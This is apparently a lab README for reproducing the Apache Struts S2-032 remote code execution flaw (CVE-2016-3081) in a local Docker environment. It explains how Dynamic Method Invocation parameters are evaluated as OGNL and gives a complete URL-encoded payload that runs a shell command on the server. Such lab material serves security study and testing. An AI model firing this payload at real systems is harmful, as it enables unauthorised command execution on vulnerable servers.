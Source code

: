 # S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## Setup

Execute the following command to start the Struts2 2.3.28：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example page.

## Exploitation

There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute. It is called “Dynamic Method Invocation” aka DMI.

A simple way to use DMI is to provide HTTP parameters prefixed with `method:`. For example in the URL it could be `/category.action?method:create=foo`, the parameter value is ignored.

The method name of DMI will be evaluated by OGNL expression engine, which would cause the RCE vulnerability.

Visit following URL to trigger the `id` command:

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)
